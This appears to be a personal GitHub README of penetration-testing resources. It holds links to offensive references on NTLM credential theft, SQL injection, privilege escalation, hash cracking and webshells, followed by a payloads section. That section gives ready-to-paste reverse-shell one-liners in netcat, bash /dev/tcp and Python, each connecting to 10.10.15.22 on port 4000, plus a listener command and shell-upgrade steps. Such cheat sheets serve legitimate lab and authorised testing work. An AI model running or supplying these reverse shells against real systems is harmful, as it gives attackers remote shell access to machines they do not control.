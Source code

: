 # Resources
A collection of links and payloads I stored for quick access
# LINKS
- [**Pentesting Map**](https://www.offensity.com/en/blog/just-another-recon-guide-pentesters-and-bug-bounty-hunters/)
- [**Bug Bounty Writeups**](https://hackerone.com/hacktivity)
- [**Bug Bounty Cheatsheat**](https://github.com/EdOverflow/bugbounty-cheatsheet)
- [**NTLM Theft**](https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds)
- [**Server SideTemplate Injection Payloads**](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- [**Jenkins Pentesting**](https://book.hacktricks.xyz/cloud-security/jenkins#code-execution)
- [**SecLists**](https://github.com/danielmiessler/SecLists)
- [**Payloads Of All Things**](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [**MSSQL Pentesting**](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
- [**MSSQL Injection Cheatsheat**](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
- [**XP_cmdshell cheatsheat**](https://www.hackingarticles.in/mssql-for-pentester-command-execution-with-xp_cmdshell/)
- [**Impacket mssqlclient Reverse Shell**](https://rioasmara.com/2020/05/30/impacket-mssqlclient-reverse-shell/)
- [**Windows Local Privillage Escalation**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#krbrelayup)
-  [**Juicy Potato Exploit**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato)
-  [**Pass The Hash**](https://www.netwrix.com/pass_the_hash_attack_explained.html)
-  [**HashCat Beginner Guide**](https://resources.infosecinstitute.com/topic/hashcat-tutorial-beginners/)
-  [**Hash Analyzer**](https://www.tunnelsup.com/hash-analyzer/)
-  [**Zip and rar Cracking with john**](https://dfir.science/2014/07/how-to-cracking-zip-and-rar-protected.html)
-  [**Reverse Shell Generator**](https://www.revshells.com/)
-  [**GTFO bins**](https://gtfobins.github.io/)
-  [**Webshells**](https://github.com/BlackArch/webshells)

# Payloads
## Local Webserver

### Python

```python
python -m SimpleHTTPServer
```

```python
python3 -m http.server
```

### PHP
```php
php -S 0.0.0.0:8000
```

## Shells

### Set Listener 
```bash
nc -lnvp 4000
```

### [Reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
#### netcat:
```bash
nc -e /bin/sh 10.10.15.22 4000
```

#### Bash
```bash
bash -i >& /dev/tcp/10.10.15.22/4000 0>&1
```
#### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.22",4000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
### Interactive Shell

#### Bash
```python
python(3) -c 'import pty; pty.spawn("/bin/bash")'
```
```cmd
Ctrl-Z
```
```cmd
stty raw -echo
```
```
fg
```
